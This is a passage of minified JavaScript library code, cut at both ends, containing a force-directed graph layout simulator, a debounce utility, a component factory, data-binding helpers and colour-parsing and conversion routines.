continue;\n\n    if (adaptiveTimeStepWeight && body.springCount) {\n      timeStep = (adaptiveTimeStepWeight * body.springLength/body.springCount);\n    }\n\n    var coeff = timeStep / body.mass;\n\n    ${n("body.velocity.{var} += coeff * body.force.{var};",{indent:4})}\n    ${n("var v{var} = body.velocity.{var};",{indent:4})}\n    var v = Math.sqrt(${n("v{var} * v{var}",{join:" + "})});\n\n    if (v > 1) {\n      // We normalize it so that we move within timeStep range. \n      // for the case when v <= 1 - we let velocity to fade out.\n      ${n("body.velocity.{var} = v{var} / v;",{indent:6})}\n    }\n\n    ${n("d{var} = timeStep * body.velocity.{var};",{indent:4})}\n\n    ${n("body.pos.{var} += d{var};",{indent:4})}\n\n    ${n("t{var} += Math.abs(d{var});",{indent:4})}\n  }\n\n  return (${n("t{var} * t{var}",{join:" + "})})/length;\n`}return ih.exports=function(t){let n=e(t);return new Function("bodies","timeStep","adaptiveTimeStepWeight",n)},ih.exports.generateIntegratorFunctionBody=e,ih.exports}(),o={};function s(t,e,n){if(t.hasOwnProperty(n)&&"function"!=typeof e[n]){var i=Number.isFinite(t[n]);e[n]=i?function(i){if(void 0!==i){if(!Number.isFinite(i))throw new Error("Value of "+n+" should be a valid number.");return t[n]=i,e}return t[n]}:function(i){return void 0!==i?(t[n]=i,e):t[n]}}}return ah}var hh=function(){if(sh)return Bc.exports;sh=1,Bc.exports=function(n,i){if(!n)throw new Error("Graph structure cannot be undefined");var r=(i&&i.createSimulator||ch())(i);if(Array.isArray(i))throw new Error("Physics settings is expected to be an object");var a=n.version>19?function(t){var e=n.getLinks(t);return e?1+e.size/3:1}:function(t){var e=n.getLinks(t);return e?1+e.length/3:1};i&&"function"==typeof i.nodeMass&&(a=i.nodeMass);var o=new Map,s={},l=0,c=r.settings.springTransform||e;l=0,n.forEachNode((function(t){m(t.id),l+=1})),n.forEachLink(_),n.on("changed",f);var h=!1,u={step:function(){if(0===l)return d(!0),!0;var t=r.step();u.lastMove=t,u.fire("step");var e=t/l<=.01;return d(e),e},getNodePosition:function(t){return x(t).pos},setNodePosition:function(t){var e=x(t);e.setPosition.apply(e,Array.prototype.slice.call(arguments,1))},getLinkPosition:function(t){var e=s[t];if(e)return{from:e.from.pos,to:e.to.pos}},getGraphRect:function(){return r.getBBox()},forEachBody:p,pinNode:function(t,e){x(t.id).isPinned=!!e},isNodePinned:function(t){return x(t.id).isPinned},dispose:function(){n.off("changed",f),u.fire("disposed")},getBody:function(t){return o.get(t)},getSpring:function(t,e){var i;if(void 0===e)i="object"!=typeof t?t:t.id;else{var r=n.hasLink(t,e);if(!r)return;i=r.id}return s[i]},getForceVectorLength:function(){var t=0,e=0;return p((function(n){t+=Math.abs(n.force.x),e+=Math.abs(n.force.y)})),Math.sqrt(t*t+e*e)},simulator:r,graph:n,lastMove:0};return t(u),u;function d(t){var e;h!==t&&(h=t,e=t,u.fire("stable",e))}function p(t){o.forEach(t)}function f(t){for(var e=0;e<t.length;++e){var i=t[e];"add"===i.changeType?(i.node&&m(i.node.id),i.link&&_(i.link)):"remove"===i.changeType&&(i.node&&g(i.node),i.link&&v(i.link))}l=n.getNodesCount()}function m(t){var e=o.get(t);if(!e){var i=n.getNode(t);if(!i)throw new Error("initBody() was called with unknown node id");var a=i.position;if(!a){var s=function(t){var e=[];if(!t.links)return e;for(var n=Math.min(t.links.length,2),i=0;i<n;++i){var r=t.links[i],a=r.fromId!==t.id?o.get(r.fromId):o.get(r.toId);a&&a.pos&&e.push(a)}return e}(i);a=r.getBestNewBodyPosition(s)}(e=r.addBodyAt(a)).id=t,o.set(t,e),y(t),function(t){return t&&(t.isPinned||t.data&&t.data.isPinned)}(i)&&(e.isPinned=!0)}}function g(t){var e=t.id,n=o.get(e);n&&(o.delete(e),r.removeBody(n))}function _(t){y(t.fromId),y(t.toId);var e=o.get(t.fromId),n=o.get(t.toId),i=r.addSpring(e,n,t.length);c(t,i),s[t.id]=i}function v(t){var e=s[t.id];if(e){var i=n.getNode(t.fromId),a=n.getNode(t.toId);i&&y(i.id),a&&y(a.id),delete s[t.id],r.removeSpring(e)}}function y(t){var e=o.get(t);if(e.mass=a(t),Number.isNaN(e.mass))throw new Error("Node mass should be a number")}function x(t){var e=o.get(t);return e||(m(t),e=o.get(t)),e}},Bc.exports.simulator=ch();var t=Dc();function e(){}return Bc.exports}(),uh=Lc(hh);function dh(t){var e=typeof t;return null!=t&&("object"==e||"function"==e)}var ph="object"==typeof global&&global&&global.Object===Object&&global,fh="object"==typeof self&&self&&self.Object===Object&&self,mh=ph||fh||Function("return this")(),gh=function(){return mh.Date.now()},_h=/\s/;var vh=/^\s+/;function yh(t){return t?t.slice(0,function(t){for(var e=t.length;e--&&_h.test(t.charAt(e)););return e}(t)+1).replace(vh,""):t}var xh=mh.Symbol,bh=Object.prototype,Mh=bh.hasOwnProperty,Sh=bh.toString,Eh=xh?xh.toStringTag:void 0;var wh=Object.prototype.toString;var Th=xh?xh.toStringTag:void 0;function Ah(t){return null==t?void 0===t?"[object Undefined]":"[object Null]":Th&&Th in Object(t)?function(t){var e=Mh.call(t,Eh),n=t[Eh];try{t[Eh]=void 0;var i=!0}catch(t){}var r=Sh.call(t);return i&&(e?t[Eh]=n:delete t[Eh]),r}(t):function(t){return wh.call(t)}(t)}var Ch=/^[-+]0x[0-9a-f]+$/i,Rh=/^0b[01]+$/i,Ph=/^0o[0-7]+$/i,Lh=parseInt;function Dh(t){if("number"==typeof t)return t;if(function(t){return"symbol"==typeof t||function(t){return null!=t&&"object"==typeof t}(t)&&"[object Symbol]"==Ah(t)}(t))return NaN;if(dh(t)){var e="function"==typeof t.valueOf?t.valueOf():t;t=dh(e)?e+"":e}if("string"!=typeof t)return 0===t?t:+t;t=yh(t);var n=Rh.test(t);return n||Ph.test(t)?Lh(t.slice(2),n?2:8):Ch.test(t)?NaN:+t}var Ih=Math.max,Oh=Math.min;function Uh(t,e,n){var i,r,a,o,s,l,c=0,h=!1,u=!1,d=!0;if("function"!=typeof t)throw new TypeError("Expected a function");function p(e){var n=i,a=r;return i=r=void 0,c=e,o=t.apply(a,n)}function f(t){var n=t-l;return void 0===l||n>=e||n<0||u&&t-c>=a}function m(){var t=gh();if(f(t))return g(t);s=setTimeout(m,function(t){var n=e-(t-l);return u?Oh(n,a-(t-c)):n}(t))}function g(t){return s=void 0,d&&i?p(t):(i=r=void 0,o)}function _(){var t=gh(),n=f(t);if(i=arguments,r=this,l=t,n){if(void 0===s)return function(t){return c=t,s=setTimeout(m,e),h?p(t):o}(l);if(u)return clearTimeout(s),s=setTimeout(m,e),p(l)}return void 0===s&&(s=setTimeout(m,e)),o}return e=Dh(e)||0,dh(n)&&(h=!!n.leading,a=(u="maxWait"in n)?Ih(Dh(n.maxWait)||0,e):a,d="trailing"in n?!!n.trailing:d),_.cancel=function(){void 0!==s&&clearTimeout(s),c=0,i=l=r=s=void 0},_.flush=function(){return void 0===s?o:g(gh())},_}function Nh(t,e,n){return Object.defineProperty(t,"prototype",{writable:!1}),t}function Fh(t,e){return function(t){if(Array.isArray(t))return t}(t)||function(t,e){var n=null==t?null:"undefined"!=typeof Symbol&&t[Symbol.iterator]||t["@@iterator"];if(null!=n){var i,r,a,o,s=[],l=!0,c=!1;try{if(a=(n=n.call(t)).next,0===e);else for(;!(l=(i=a.call(n)).done)&&(s.push(i.value),s.length!==e);l=!0);}catch(t){c=!0,r=t}finally{try{if(!l&&null!=n.return&&(o=n.return(),Object(o)!==o))return}finally{if(c)throw r}}return s}}(t,e)||function(t,e){if(!t)return;if("string"==typeof t)return kh(t,e);var n=Object.prototype.toString.call(t).slice(8,-1);"Object"===n&&t.constructor&&(n=t.constructor.name);if("Map"===n||"Set"===n)return Array.from(t);if("Arguments"===n||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(n))return kh(t,e)}(t,e)||function(){throw new TypeError("Invalid attempt to destructure non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function kh(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=new Array(e);n<e;n++)i[n]=t[n];return i}var zh=Nh((function t(e,n){var i=n.default,r=void 0===i?null:i,a=n.triggerUpdate,o=void 0===a||a,s=n.onChange,l=void 0===s?function(t,e){}:s;!function(t,e){if(!(t instanceof e))throw new TypeError("Cannot call a class as a function")}(this,t),this.name=e,this.defaultVal=r,this.triggerUpdate=o,this.onChange=l}));function Bh(t){var e=t.stateInit,n=void 0===e?function(){return{}}:e,i=t.props,r=void 0===i?{}:i,a=t.methods,o=void 0===a?{}:a,s=t.aliases,l=void 0===s?{}:s,c=t.init,h=void 0===c?function(){}:c,u=t.update,d=void 0===u?function(){}:u,p=Object.keys(r).map((function(t){return new zh(t,r[t])}));return function(){var t=arguments.length>0&&void 0!==arguments[0]?arguments[0]:{},e=Object.assign({},n instanceof Function?n(t):n,{initialised:!1}),i={};function r(e){return a(e,t),s(),r}var a=function(t,n){h.call(r,t,e,n),e.initialised=!0},s=Uh((function(){e.initialised&&(d.call(r,e,i),i={})}),1);return p.forEach((function(t){r[t.name]=function(t){var n=t.name,a=t.triggerUpdate,o=void 0!==a&&a,l=t.onChange,c=void 0===l?function(t,e){}:l,h=t.defaultVal,u=void 0===h?null:h;return function(t){var a=e[n];if(!arguments.length)return a;var l=void 0===t?u:t;return e[n]=l,c.call(r,l,e,a),!i.hasOwnProperty(n)&&(i[n]=a),o&&s(),r}}(t)})),Object.keys(o).forEach((function(t){r[t]=function(){for(var n,i=arguments.length,a=new Array(i),s=0;s<i;s++)a[s]=arguments[s];return(n=o[t]).call.apply(n,[r,e].concat(a))}})),Object.entries(l).forEach((function(t){var e=Fh(t,2),n=e[0],i=e[1];return r[n]=r[i]})),r.resetProps=function(){return p.forEach((function(t){r[t.name](t.defaultVal)})),r},r.resetProps(),e._rerender=s,r}}var Hh=function(t){return"function"==typeof t?t:"string"==typeof t?function(e){return e[t]}:function(e){return t}};class Vh extends Map{constructor(t,e=jh){if(super(),Object.defineProperties(this,{_intern:{value:new Map},_key:{value:e}}),null!=t)for(const[e,n]of t)this.set(e,n)}get(t){return super.get(Gh(this,t))}has(t){return super.has(Gh(this,t))}set(t,e){return super.set(function({_intern:t,_key:e},n){const i=e(n);return t.has(i)?t.get(i):(t.set(i,n),n)}(this,t),e)}delete(t){return super.delete(function({_intern:t,_key:e},n){const i=e(n);t.has(i)&&(n=t.get(i),t.delete(i));return n}(this,t))}}function Gh({_intern:t,_key:e},n){const i=e(n);return t.has(i)?t.get(i):n}function jh(t){return null!==t&&"object"==typeof t?t.valueOf():t}function Wh(t,e){let n;if(void 0===e)for(const e of t)null!=e&&(n<e||void 0===n&&e>=e)&&(n=e);else{let i=-1;for(let r of t)null!=(r=e(r,++i,t))&&(n<r||void 0===n&&r>=r)&&(n=r)}return n}function Xh(t,e){let n;if(void 0===e)for(const e of t)null!=e&&(n>e||void 0===n&&e>=e)&&(n=e);else{let i=-1;for(let r of t)null!=(r=e(r,++i,t))&&(n>r||void 0===n&&r>=r)&&(n=r)}return n}function qh(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=Array(e);n<e;n++)i[n]=t[n];return i}function Yh(t,e){return function(t){if(Array.isArray(t))return t}(t)||function(t,e){var n=null==t?null:"undefined"!=typeof Symbol&&t[Symbol.iterator]||t["@@iterator"];if(null!=n){var i,r,a,o,s=[],l=!0,c=!1;try{if(a=(n=n.call(t)).next,0===e);else for(;!(l=(i=a.call(n)).done)&&(s.push(i.value),s.length!==e);l=!0);}catch(t){c=!0,r=t}finally{try{if(!l&&null!=n.return&&(o=n.return(),Object(o)!==o))return}finally{if(c)throw r}}return s}}(t,e)||$h(t,e)||function(){throw new TypeError("Invalid attempt to destructure non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function Kh(t){return function(t){if(Array.isArray(t))return qh(t)}(t)||function(t){if("undefined"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t["@@iterator"])return Array.from(t)}(t)||$h(t)||function(){throw new TypeError("Invalid attempt to spread non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function Zh(t){var e=function(t,e){if("object"!=typeof t||!t)return t;var n=t[Symbol.toPrimitive];if(void 0!==n){var i=n.call(t,e);if("object"!=typeof i)return i;throw new TypeError("@@toPrimitive must return a primitive value.")}return String(t)}(t,"string");return"symbol"==typeof e?e:e+""}function $h(t,e){if(t){if("string"==typeof t)return qh(t,e);var n={}.toString.call(t).slice(8,-1);return"Object"===n&&t.constructor&&(n=t.constructor.name),"Map"===n||"Set"===n?Array.from(t):"Arguments"===n||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(n)?qh(t,e):void 0}}var Jh=function(){var t=arguments.length>0&&void 0!==arguments[0]?arguments[0]:[],e=arguments.length>1&&void 0!==arguments[1]?arguments[1]:[],n=!(arguments.length>2&&void 0!==arguments[2])||arguments[2],i=arguments.length>3&&void 0!==arguments[3]&&arguments[3],r=(e instanceof Array?e.length?e:[void 0]:[e]).map((function(t){return{keyAccessor:t,isProp:!(t instanceof Function)}})),a=t.reduce((function(t,e){var i=t,a=e;return r.forEach((function(t,e){var o,s=t.keyAccessor;if(t.isProp){var l=a,c=l[s],h=function(t,e){if(null==t)return{};var n,i,r=function(t,e){if(null==t)return{};var n={};for(var i in t)if({}.hasOwnProperty.call(t,i)){if(e.includes(i))continue;n[i]=t[i]}return n}(t,e);if(Object.getOwnPropertySymbols){var a=Object.getOwnPropertySymbols(t);for(i=0;i<a.length;i++)n=a[i],e.includes(n)||{}.propertyIsEnumerable.call(t,n)&&(r[n]=t[n])}return r}(l,[s].map(Zh));o=c,a=h}else o=s(a,e);e+1<r.length?(i.hasOwnProperty(o)||(i[o]={}),i=i[o]):n?(i.hasOwnProperty(o)||(i[o]=[]),i[o].push(a)):i[o]=a})),t}),{});n instanceof Function&&function t(e){var i=arguments.length>1&&void 0!==arguments[1]?arguments[1]:1;i===r.length?Object.keys(e).forEach((function(t){return e[t]=n(e[t])})):Object.values(e).forEach((function(e){return t(e,i+1)}))}(a);var o=a;return i&&(o=[],function t(e){var n=arguments.length>1&&void 0!==arguments[1]?arguments[1]:[];n.length===r.length?o.push({keys:n,vals:e}):Object.entries(e).forEach((function(e){var i=Yh(e,2),r=i[0],a=i[1];return t(a,[].concat(Kh(n),[r]))}))}(a),e instanceof Array&&0===e.length&&1===o.length&&(o[0].keys=[])),o};function Qh(t,e){var n=Object.keys(t);if(Object.getOwnPropertySymbols){var i=Object.getOwnPropertySymbols(t);e&&(i=i.filter((function(e){return Object.getOwnPropertyDescriptor(t,e).enumerable}))),n.push.apply(n,i)}return n}function tu(t,e,n){return(e=function(t){var e=function(t,e){if("object"!=typeof t||null===t)return t;var n=t[Symbol.toPrimitive];if(void 0!==n){var i=n.call(t,e||"default");if("object"!=typeof i)return i;throw new TypeError("@@toPrimitive must return a primitive value.")}return("string"===e?String:Number)(t)}(t,"string");return"symbol"==typeof e?e:String(e)}(e))in t?Object.defineProperty(t,e,{value:n,enumerable:!0,configurable:!0,writable:!0}):t[e]=n,t}function eu(t,e){if(null==t)return{};var n,i,r=function(t,e){if(null==t)return{};var n,i,r={},a=Object.keys(t);for(i=0;i<a.length;i++)n=a[i],e.indexOf(n)>=0||(r[n]=t[n]);return r}(t,e);if(Object.getOwnPropertySymbols){var a=Object.getOwnPropertySymbols(t);for(i=0;i<a.length;i++)n=a[i],e.indexOf(n)>=0||Object.prototype.propertyIsEnumerable.call(t,n)&&(r[n]=t[n])}return r}function nu(t,e){return function(t){if(Array.isArray(t))return t}(t)||function(t,e){var n=null==t?null:"undefined"!=typeof Symbol&&t[Symbol.iterator]||t["@@iterator"];if(null!=n){var i,r,a,o,s=[],l=!0,c=!1;try{if(a=(n=n.call(t)).next,0===e);else for(;!(l=(i=a.call(n)).done)&&(s.push(i.value),s.length!==e);l=!0);}catch(t){c=!0,r=t}finally{try{if(!l&&null!=n.return&&(o=n.return(),Object(o)!==o))return}finally{if(c)throw r}}return s}}(t,e)||ru(t,e)||function(){throw new TypeError("Invalid attempt to destructure non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function iu(t){return function(t){if(Array.isArray(t))return au(t)}(t)||function(t){if("undefined"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t["@@iterator"])return Array.from(t)}(t)||ru(t)||function(){throw new TypeError("Invalid attempt to spread non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function ru(t,e){if(t){if("string"==typeof t)return au(t,e);var n=Object.prototype.toString.call(t).slice(8,-1);return"Object"===n&&t.constructor&&(n=t.constructor.name),"Map"===n||"Set"===n?Array.from(t):"Arguments"===n||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(n)?au(t,e):void 0}}function au(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=new Array(e);n<e;n++)i[n]=t[n];return i}var ou=["createObj","updateObj","exitObj","objBindAttr","dataBindAttr"];function su(t,e,n){var i=n.objBindAttr,r=void 0===i?"__obj":i,a=n.dataBindAttr,o=void 0===a?"__data":a,s=n.idAccessor,l=n.purge,c=void 0!==l&&l,h=function(t){return t.hasOwnProperty(o)},u=e.filter((function(t){return!h(t)})),d=e.filter(h).map((function(t){return t[o]})),p=c?{enter:t,exit:d,update:[]}:function(t,e,n){var i={enter:[],update:[],exit:[]};if(n){var r=Jh(t,n,!1),a=Jh(e,n,!1),o=Object.assign({},r,a);Object.entries(o).forEach((function(t){var e=nu(t,2),n=e[0],o=e[1],s=r.hasOwnProperty(n)?a.hasOwnProperty(n)?"update":"exit":"enter";i[s].push("update"===s?[r[n],a[n]]:o)}))}else{var s=new Set(t),l=new Set(e);new Set([].concat(iu(s),iu(l))).forEach((function(t){var e=s.has(t)?l.has(t)?"update":"exit":"enter";i[e].push("update"===e?[t,t]:t)}))}return i}(d,t,s);return p.update=p.update.map((function(t){var e=nu(t,2),n=e[0],i=e[1];return n!==i&&(i[r]=n[r],i[r][o]=i),i})),p.exit=p.exit.concat(u.map((function(t){return tu({},r,t)}))),p}function lu(t,e,n,i,r){var a=r.createObj,o=void 0===a?function(t){return{}}:a,s=r.updateObj,l=void 0===s?function(t,e){}:s,c=r.exitObj,h=void 0===c?function(t){}:c,u=r.objBindAttr,d=void 0===u?"__obj":u,p=r.dataBindAttr,f=void 0===p?"__data":p,m=eu(r,ou),g=su(t,e,function(t){for(var e=1;e<arguments.length;e++){var n=null!=arguments[e]?arguments[e]:{};e%2?Qh(Object(n),!0).forEach((function(e){tu(t,e,n[e])})):Object.getOwnPropertyDescriptors?Object.defineProperties(t,Object.getOwnPropertyDescriptors(n)):Qh(Object(n)).forEach((function(e){Object.defineProperty(t,e,Object.getOwnPropertyDescriptor(n,e))}))}return t}({objBindAttr:d,dataBindAttr:f},m)),_=g.enter,v=g.update;g.exit.forEach((function(t){var e=t[d];delete t[d],h(e),i(e)}));var y=function(t){var e=[];return t.forEach((function(t){var n=o(t);n&&(n[f]=t,t[d]=n,e.push(n))})),e}(_);!function(t){t.forEach((function(t){var e=t[d];e&&(e[f]=t,l(e,t))}))}([].concat(iu(_),iu(v))),y.forEach(n)}function cu(t,e){switch(arguments.length){case 0:break;case 1:this.range(t);break;default:this.range(e).domain(t)}return this}const hu=Symbol("implicit");var uu=function(t){for(var e=t.length/6|0,n=new Array(e),i=0;i<e;)n[i]="#"+t.slice(6*i,6*++i);return n}("a6cee31f78b4b2df8a33a02cfb9a99e31a1cfdbf6fff7f00cab2d66a3d9affff99b15928");function du(t){return du="function"==typeof Symbol&&"symbol"==typeof Symbol.iterator?function(t){return typeof t}:function(t){return t&&"function"==typeof Symbol&&t.constructor===Symbol&&t!==Symbol.prototype?"symbol":typeof t},du(t)}var pu=/^\s+/,fu=/\s+$/;function mu(t,e){if(e=e||{},(t=t||"")instanceof mu)return t;if(!(this instanceof mu))return new mu(t,e);var n=function(t){var e={r:0,g:0,b:0},n=1,i=null,r=null,a=null,o=!1,s=!1;"string"==typeof t&&(t=function(t){t=t.replace(pu,"").replace(fu,"").toLowerCase();var e,n=!1;if(Du[t])t=Du[t],n=!0;else if("transparent"==t)return{r:0,g:0,b:0,a:0,format:"name"};if(e=Wu.rgb.exec(t))return{r:e[1],g:e[2],b:e[3]};if(e=Wu.rgba.exec(t))return{r:e[1],g:e[2],b:e[3],a:e[4]};if(e=Wu.hsl.exec(t))return{h:e[1],s:e[2],l:e[3]};if(e=Wu.hsla.exec(t))return{h:e[1],s:e[2],l:e[3],a:e[4]};if(e=Wu.hsv.exec(t))return{h:e[1],s:e[2],v:e[3]};if(e=Wu.hsva.exec(t))return{h:e[1],s:e[2],v:e[3],a:e[4]};if(e=Wu.hex8.exec(t))return{r:Fu(e[1]),g:Fu(e[2]),b:Fu(e[3]),a:Hu(e[4]),format:n?"name":"hex8"};if(e=Wu.hex6.exec(t))return{r:Fu(e[1]),g:Fu(e[2]),b:Fu(e[3]),format:n?"name":"hex"};if(e=Wu.hex4.exec(t))return{r:Fu(e[1]+""+e[1]),g:Fu(e[2]+""+e[2]),b:Fu(e[3]+""+e[3]),a:Hu(e[4]+""+e[4]),format:n?"name":"hex8"};if(e=Wu.hex3.exec(t))return{r:Fu(e[1]+""+e[1]),g:Fu(e[2]+""+e[2]),b:Fu(e[3]+""+e[3]),format:n?"name":"hex"};return!1}(t));"object"==du(t)&&(Xu(t.r)&&Xu(t.g)&&Xu(t.b)?(l=t.r,c=t.g,h=t.b,e={r:255*Uu(l,255),g:255*Uu(c,255),b:255*Uu(h,255)},o=!0,s="%"===String(t.r).substr(-1)?"prgb":"rgb"):Xu(t.h)&&Xu(t.s)&&Xu(t.v)?(i=zu(t.s),r=zu(t.v),e=function(t,e,n){t=6*Uu(t,360),e=Uu(e,100),n=Uu(n,100);var i=Math.floor(t),r=t-i,a=n*(1-e),o=n*(1-r*e),s=n*(1-(1-r)*e),l=i%6,c=[n,o,a,a,s,n][l],h=[s,n,n,o,a,a][l],u=[a,a,s,n,n,o][l];return{r:255*c,g:255*h,b:255*u}}(t.h,i,r),o=!0,s="hsv"):Xu(t.h)&&Xu(t.s)&&Xu(t.l)&&(i=zu(t.s),a=zu(t.l),e=function(t,e,n){var i,r,a;function o(t,e,n){return n<0&&(n+=1),n>1&&(n-=1),n<1/6?t+6*(e-t)*n:n<.5?e:n<2/3?t+(e-t)*(2/3-n)*6:t}if(t=Uu(t,360),e=Uu(e,100),n=Uu(n,100),0===e)i=r=a=n;else{var s=n<.5?n*(1+e):n+e-n*e,l=2*n-s;i=o(l,s,t+1/3),r=o(l,s,t),a=o(l,s,t-1/3)}return{r:255*i,g:255*r,b:255*a}}(t.h,i,a),o=!0,s="hsl"),t.hasOwnProperty("a")&&(n=t.a));var l,c,h;return n=Ou(n),{ok:o,format:t.format||s,r:Math.min(255,Math.max(e.r,0)),g:Math.min(255,Math.max(e.g,0)),b:Math.min(255,Math.max(e.b,0)),a:n}}(t);this._originalInput=t,this._r=n.r,this._g=n.g,this._b=n.b,this._a=n.a,this._roundA=Math.round(100*this._a)/100,this._format=e.format||n.format,this._gradientType=e.gradientType,this._r<1&&(this._r=Math.round(this._r)),this._g<1&&(this._g=Math.round(this._g)),this._b<1&&(this._b=Math.round(this._b)),this._ok=n.ok}function gu(t,e,n){t=Uu(t,255),e=Uu(e,255),n=Uu(n,255);var i,r,a=Math.max(t,e,n),o=Math.min(t,e,n),s=(a+o)/2;if(a==o)i=r=0;else{var l=a-o;switch(r=s>.5?l/(2-a-o):l/(a+o),a){case t:i=(e-n)/l+(e<n?6:0);break;case e:i=(n-t)/l+2;break;case n:i=(t-e)/l+4}i/=6}return{h:i,s:r,l:s}}function _u(t,e,n){t=Uu(t,255),e=Uu(e,255),n=Uu(n,255);var i,r,a=Math.max(t,e,n),o=Math.min(t,e,n),s=a,l=a-o;if(r=0===a?0:l/a,a==o)i=0;else{switch(a){case t:i=(e-n)/l+(e<n?6:0);break;case e:i=(n-t)/l+2;break;case n:i=(t-e)/l+4}i/=6}return{h:i,s:r,v:s}}function vu(t,e,n,i){var r=[ku(Math.round(t).toString(16)),ku(Math.round(e).toString(16)),ku(Math.round(n).toString(16))];return i&&r[0].charAt(0)==r[0].charAt(1)&&r[1].charAt(0)==r[1].charAt(1)&&r[2].charAt(0)==r[2].charAt(1)?r[0].charAt(0)+r[1].charAt(0)+r[2].charAt(0):r.join("")}function yu(t,e,n,i){return[ku(Bu(i)),ku(Math.round(t).toString(16)),ku(Math.round(e).toString(16)),ku(Math.round(n).toString(16))].join("")}function xu(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.s-=e/100,n.s=Nu(n.s),mu(n)}function bu(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.s+=e/100,n.s=Nu(n.s),mu(n)}function Mu(t){return mu(t).desaturate(100)}function Su(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.l+=e/100,n.l=Nu(n.l),mu(n)}function Eu(t,e){e=0===e?0:e||10;var n=mu(t).toRgb();return n.r=Math.max(0,Math.min(255,n.r-Math.round(-e/100*255))),n.g=Math.max(0,Math.min(255,n.g-Math.round(-e/100*255))),n.b=Math.max(0,Math.min(255,n.b-Math.round(-e/100*255))),mu(n)}function wu(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.l-=e/100,n.l=Nu(n.l),mu(n)}function Tu(t,e){var n=mu(t).toHsl(),i=(n.h+e)%360;return n.h=i<0?360+i:i,mu(n)}function Au(t){var e=mu(t).toHsl();return e.h=(e.h+180)%360,mu(e)}function Cu(t,e){if(isNaN(e)||e<=0)throw new Error("Argument to polyad must be a positive number");for(var n=mu(t).toHsl(),i=[mu(t)],r=360/e,a=1;a<e;a++)i.push(mu({h:(n.h+a*r)%360,s:n.s,l:n.l}));return i}function Ru(t){var e=mu(t).toHsl(),n=e.h;return[mu(t),mu({h:(n+72)%360,s:e.s,l:e.l}),mu({h:(n+216)%360,s:e.s,l:e.l})]}function Pu(t,e,n){e=e||6,n=n||30;var i=mu(t).toHsl(),r=360/n,a=[mu(t)];for(i.h=(i.h-(r*e>>1)+720)%360;--e;)i.h=(i.h+r)%360,a.push(mu(i));return a}function Lu(t,e){e=e||6;for(var n=mu(t).toHsv(),i=n.h,r=n.s,a=n.v,o=[],s=1/e;e--;)o.push(mu({h:i,s:r,v:a})),a=(a+s)%1;return o}mu.prototype={isDark:function(){return this.getBrightness()<128},isLight:function(){return!this.isDark()},isValid:function(){return this._ok},getOriginalInput:function(){return this._originalInput},getFormat:function(){return this._format},getAlpha:function(){return this._a},getBrightness:function(){var t=this.toRgb();return(299*t.r+587*t.g+114*t.b)/1e3},getLuminance:function(){var t,e,n,i=this.toRgb();return t=i.r/255,e=i.g/255,n=i.b/255,.2126*(t<=.03928?t/12.92:Math.pow((t+.055)/1.055,2.4))+.7152*(e<=.03928?e/12.92:Math.pow((e+.055)/1.055,2.4))+.0722*(n<=.03928?n/12.92:Math.pow((n+.055)/1.055,2.4))},setAlpha:function(t){return this._a=Ou(t),this._roundA=Math.round(100*this._a)/100,this},toHsv:function(){var t=_u(this._r,this._g,this._b);return{h:360*t.h,s:t.s,v:t.v,a:this._a}},toHsvString:function(){var t=_u(this._r,this._g,this._b),e=Math.round(360*t.h),n=Math.round(100*t.s),i=Math.round(100*t.v);return 1==this._a?"hsv("+e+", "+n+"%, "+i+"%)":"hsva("+e+", "+n+"%, "+i+"%, "+this._roundA+")"},toHsl:function(){var t=gu(this._r,this._g,this._b);return{h:360*t.h,s:t.s,l:t.l,a:this._a}},toHslString:function(){var t=gu(this._r,this._g,this._b),e=Math.round(360*t.h),n=Math.round(100*t.s),i=Math.round(100*t.l);return 1==this._a?"hsl("+e+", "+n+"%, "+i+"%)":"hsla("+e+", "+n+"%, "+i+"%, "+this._roundA+")"},toHex:function(t){return vu(this._r,this._g,this._b,t)},toHexString:function(t){return"#"+this.toHex(t)},toHex8:function(t){return function(t,e,n,i,r){var a=[ku(Math.round(t).toString(16)),ku(Math.round(e).toString(16)),ku(Math.round(n).toString(16)),ku(Bu(i))];if(r&&a[0].charAt(0)==a[0].charAt(1)&&a[1].charAt(0)==a[1].charAt(1)&&a[2].charAt(0)==a[2].charAt(1)&&a[3].charAt(0)==a[3].charAt(1))return a[0].charAt(0)+a[1].charAt(0)+a[2].charAt(0)+a[3].charAt(0);return a.join("")}(this._r,this._g,this._b,this._a,t)},toHex8String:function(t){return"#"+this.toHex8(t)},toRgb:function(){return{r:Math.round(this._r),g:Math.round(this._g),b:Math.round(this._b),a:this._a}},toRgbString:function(){return 1==this._a?"rgb("+Math.round(this._r)+", "+Math.round(this._g)+", "+Math.round(this._b)+")":"rgba("+Math.round(this._r)+", "+Math.round(this._g)+", "+Math.round(this._b)+", "+this._roundA+")"},toPercentageRgb:function(){return{r:Math.round(100*Uu(this._r,255))+"%",g:Math.round(100*Uu(this._g,255))+"%",b:Math.round(100*Uu(this._b,255))+"%",a:this._a}},toPercentageRgbString:function(){return 1==this._a?"rgb("+Math.round(100*Uu(this._r,255))+"%, "+Math.round(100*Uu(this._g,255))+"%, "+Math.round(100*Uu(this._b,255))+"%)":"rgba("+Math.round(100*Uu(this._r,255))+"%, "+Math.round(100*Uu(this._g,255))+"%, "+Math.round(100*Uu(this._b,255))+"%, "+this._roundA+")"},toName:function(){return 0===this._a?"transparent":!(this._a<1)&&(Iu[vu(this._r,this._g,this._b,!0)]||!1)},toFilter:function(t){var e="#"+yu(this._r,this._g,this._b,this._a),n=e,i=this._gradientType?"GradientType = 1, ":"";if(t){var 